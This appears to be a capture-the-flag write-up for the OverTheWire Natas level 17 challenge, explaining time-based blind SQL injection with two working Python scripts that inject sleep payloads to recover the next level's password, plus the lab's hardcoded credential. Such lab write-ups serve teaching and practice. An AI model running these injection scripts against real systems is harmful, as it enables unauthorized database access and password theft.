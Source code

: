 # Level 17 -> 18  

Blind SQLI  

we use the sleep response of whether the user exists or not to figure out the password for level 18  

use this script to find charset of the password (i.e. set of characters which make up the password)  

```python
import requests
from requests.auth import HTTPBasicAuth

Auth=HTTPBasicAuth('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
headers = {'content-type': 'application/x-www-form-urlencoded'}
filteredchars = ''
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'

for char in allchars:
	payload = 'username=natas18%22+and+password+like+binary+%27%25{0}%25%27+and+sleep%285%29+%23'.format(char)
	r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)
	if(r.elapsed.seconds >= 5):
		filteredchars = filteredchars + char
		print(filteredchars.ljust(len(allchars), "*"))
```

this works because of this query  

```
natas18" AND password LIKE BINARY "%char%" and sleep(5) #"
```

Here %c% indicates anything before or after **c**, whether **c** exists in string  
Here **BINARY** ensures case sensitive comparison  
sleep(5), sleeps for 5 seconds which lets us know whether the comparison is true  

Find password using bruteforce of charset characters using the script below  

```python
import requests
from requests.auth import HTTPBasicAuth

Auth=HTTPBasicAuth('natas17', 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC')
headers = {'content-type': 'application/x-www-form-urlencoded'}
filteredchars = 'bdgjlmpxyBCDGJKLOPRVZ146'
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
password = ''

for i in range(0, 32):
	for char in filteredchars:
		t = password + char
		payload = 'username=natas18%22+and+password+like+binary+%27{0}%25%27+and+sleep%285%29+%23'.format(t)
		r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)
		if(r.elapsed.seconds >= 5):
			password = t
			print(password.ljust(32, "*"))
			break
```

works beacuse of this query  

```
natas18" AND password LIKE BINARY "t%" and sleep(5) #"
```

t% -> starts wth t which is (password + char)  
